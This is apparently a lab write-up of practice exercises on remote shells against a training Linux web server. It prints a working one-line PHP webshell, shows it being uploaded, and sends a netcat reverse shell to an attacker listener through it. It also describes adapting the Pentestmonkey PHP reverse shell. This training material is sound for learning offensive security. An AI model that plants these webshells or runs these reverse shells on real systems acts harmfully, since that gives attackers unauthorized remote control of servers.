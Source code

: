 # Practice and Examples

## Linux machine
Configured with a simple webserver where files can be uploaded.

![Linux webserver](./img/linux_machine_webserver.png "linux webserver")

### Exercise 1. 
Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

We upload a simple PHP webshell: 

```php
# webshell.php

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

We can check that it works by accessing the file on the server at `<SERVER_IP>/uploads/webshell.php?cmd=whoami`.

![Webshell success](./img/webshell_whoami.png "Webshell success")

On the attacking machine, we set up a listener at port 6000:

```console
~$ nc -lnvp 6000
```

and we send a reverse shell back to the listener by accessing `http://<SERVER_IP>/uploads/webshell.php?cmd=nc%2010.10.188.168%206000%20-e%20/bin/bash`. i.e. we send the command `nc <LISTENER_IP> <PORT> -e /bin/bash` as the `GET` parameter.

![Reverse shell success](./img/reverse_shell_success.png "Reverse shell success")

### Exercise 2. 
Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

We edit the reverse shell script found in `/usr/share/webshells`, changing the IP address and the port.

![Edit Pentestmonkey script](./img/pentestmonkey_php_shell.png "Edit Pentestmonkey script")

We then upload this file onto the server. We set up a Netcat listener at the designated port:

```console
~$ nc -lnvp 1234
```
Then, we activate the shell by accessing the file at `<SERVER_IP>/uploads/php-reverse-shell.php`.

### Exercise 3.

Log into the Linux machine over SSH using the credentials given. Use the techniques in [Common Shell Payloads](./what_the_shell.md#common-shell-payloads) to experiment with bind and reverse netcat shells.

See linked section for details.

### Exercise 4.

Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

See [Socat](./what_the_shell.md#socat) for details.